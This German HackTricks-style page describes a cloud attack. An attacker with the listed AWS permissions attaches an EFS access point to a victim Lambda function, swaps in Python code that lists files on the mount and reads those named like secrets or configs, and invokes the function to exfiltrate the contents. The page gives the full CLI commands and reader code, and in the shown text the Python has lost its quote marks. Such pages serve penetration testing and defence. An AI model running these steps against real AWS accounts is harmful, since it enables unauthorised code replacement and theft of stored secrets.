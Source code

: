 # AWS Lambda – EFS Mount Injection via UpdateFunctionConfiguration (Datenexfiltration)

{{#include ../../../../banners/hacktricks-training.md}}

Missbrauche `lambda:UpdateFunctionConfiguration`, um einen vorhandenen EFS Access Point an eine Lambda zu hängen, und stelle dann trivialen Code bereit, der Dateien aus dem gemounteten Pfad auflistet/liest, um gemeinsam genutzte Geheimnisse/Konfigurationen zu exfiltrieren, auf die die Funktion zuvor keinen Zugriff hatte.

## Anforderungen
- Berechtigungen im Ziel-Account/-Principal:
- `lambda:GetFunctionConfiguration`
- `lambda:ListFunctions` (um Funktionen zu finden)
- `lambda:UpdateFunctionConfiguration`
- `lambda:UpdateFunctionCode`
- `lambda:InvokeFunction`
- `efs:DescribeMountTargets` (um zu bestätigen, dass Mount Targets existieren)
- Annahmen zur Umgebung:
- Target Lambda ist VPC-fähig und ihre Subnets/SGs können das EFS mount target SG über TCP/2049 erreichen (z. B. hat die Rolle AWSLambdaVPCAccessExecutionRole und das VPC-Routing erlaubt dies).
- Der EFS Access Point befindet sich in derselben VPC und hat Mount Targets in den AZs der Lambda-Subnets.

## Angriff
- Variablen
```
REGION=us-east-1
TARGET_FN=<target-lambda-name>
EFS_AP_ARN=<efs-access-point-arn>
```
1) Hänge den EFS Access Point an die Lambda-Funktion an
```
aws lambda update-function-configuration \
--function-name $TARGET_FN \
--file-system-configs Arn=$EFS_AP_ARN,LocalMountPath=/mnt/ht \
--region $REGION
# wait until LastUpdateStatus == Successful
until [ "$(aws lambda get-function-configuration --function-name $TARGET_FN --query LastUpdateStatus --output text --region $REGION)" = "Successful" ]; do sleep 2; done
```
2) Überschreibe den Code mit einem einfachen reader, der Dateien auflistet und die ersten 200 Bytes einer möglichen secret/config file einliest.
```
cat > reader.py <<PY
import os, json
BASE=/mnt/ht

def lambda_handler(e, c):
out={ls:[],peek:None}
try:
for root, dirs, files in os.walk(BASE):
for f in files:
p=os.path.join(root,f)
out[ls].append(p)
cand = next((p for p in out[ls] if secret in p.lower() or config in p.lower()), None)
if cand:
with open(cand,rb) as fh:
out[peek] = fh.read(200).decode(utf-8,ignore)
except Exception as ex:
out[err]=str(ex)
return out
PY
zip reader.zip reader.py
aws lambda update-function-code --function-name $TARGET_FN --zip-file fileb://reader.zip --region $REGION
# If the original handler was different, set it to reader.lambda_handler
aws lambda update-function-configuration --function-name $TARGET_FN --handler reader.lambda_handler --region $REGION
until [ "$(aws lambda get-function-configuration --function-name $TARGET_FN --query LastUpdateStatus --output text --region $REGION)" = "Successful" ]; do sleep 2; done
```
3) Aufrufen und Daten abrufen
```
aws lambda invoke --function-name $TARGET_FN /tmp/efs-out.json --region $REGION >/dev/null
cat /tmp/efs-out.json
```
Die Ausgabe sollte das Verzeichnislisting unter /mnt/ht und eine kleine Vorschau einer ausgewählten secret/config file von EFS enthalten.

## Auswirkungen

Ein Angreifer mit den aufgeführten Berechtigungen kann beliebige in-VPC EFS Access Points in Opfer-Lambda-Funktionen einhängen, um gemeinsam genutzte Konfigurationen und secrets, die auf EFS gespeichert sind und zuvor für diese Funktion unzugänglich waren, auszulesen und zu exfiltrieren.

## Bereinigung
```
aws lambda update-function-configuration --function-name $TARGET_FN --file-system-configs [] --region $REGION || true
```
{{#include ../../../../banners/hacktricks-training.md}}
